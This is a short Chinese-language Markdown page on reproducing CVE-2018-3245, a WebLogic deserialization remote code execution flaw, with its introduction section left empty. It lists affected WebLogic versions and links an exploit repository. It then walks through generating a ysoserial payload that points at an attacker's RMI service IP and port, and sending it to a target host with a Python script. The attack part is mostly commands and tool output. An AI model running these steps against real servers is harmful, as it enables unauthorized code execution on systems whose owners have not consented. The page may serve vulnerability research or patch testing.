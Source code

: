 ```yaml
---
title: "（CVE-2018-3245）WebLogic反序列化远程代码执行漏洞"
id: zhfly3228
---
```


# （CVE-2018-3245）WebLogic反序列化远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

WebLogic 10.3.6.0

WebLogic 12.1.3.0

WebLogic 12.2.1.3

## 三、复现过程

```
https://github.com/ianxtianxt/CVE-2018-3245 
```

### Step 1

```
java -jar ysoserial-cve-2018-3245.jar 
```

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff 
```

### Step 2

```
java -jar ysoserial-cve-2018-3245.jar  CVE_2018_3245  "[RMI_SERVICE_IP]:[PORT]"  >  poc5.ser 
```

### Step 3

```
python weblogic.py [TARGET_HOST] [PORT] poc5.ser 
```
